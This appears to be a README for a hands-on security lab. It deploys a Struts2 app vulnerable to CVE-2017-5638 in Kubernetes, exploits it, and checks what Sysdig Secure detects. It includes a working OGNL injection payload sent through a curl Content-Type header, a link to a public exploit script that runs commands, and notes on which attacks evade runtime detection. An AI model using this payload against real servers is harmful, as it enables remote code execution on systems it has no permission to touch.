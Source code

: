 # Vulnerable Struts2 (S2-045) Lab

In this lab, you will deployed a Vulnerable Struts2 workload (S2-045 / CVE-2017-5638) in Kubernetes.

1. **Confirm** you can reach the vulnerable app.  
2. **Exploit** it using a simple malicious payload.  
3. **Observe** detection events in Sysdig Secure.

----------

## 1. Access the Struts2 Application

-  Your instructor or environment will provide the a setup.sh file and a pre-configured cluster hosting the Sysdig Detection Agent  

-  The application will expose on **NodePort 30080**.  

-  Go to `http://<NodeIP>:30080` in a browser or use curl:
 
   curl -v http://<NodeIP>:30080

-  If properly configured - You should recieve a simple file upload form!

-----------

## 2. Exploit  

- **Trigger the RCE** by issuing: 

`curl -v -X POST -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',668.5*2)}.multipart/form-data" http://localhost:30080`

- Alternatively you may use ExplpoitDB: https://www.exploit-db.com/exploits/41570
  Usage: `python2 <script> <url> <command>`

-----------

## 3. **Detection**

- A clear distinction must be made here on how to detect this attack and the limitations posed with Run Time analysis.
- The curl command executes successfully returning 1337 in our custom header "vulhub"
- However, will not be picked up in **Sysdig** as no process was spawned, no file was accessed, and no network anomalies were detected.
- However the python script does yield a **Medium** severity
- In Sysdig: Navigate to "**Threats**" -->  "**Sysdig Runtime Notable Events**" --> **Event ID: 18191e49f34866df273474732a500c25**
- In short, a header injection will not trigger in Sysdig but a new system process such as 'cat' will. 

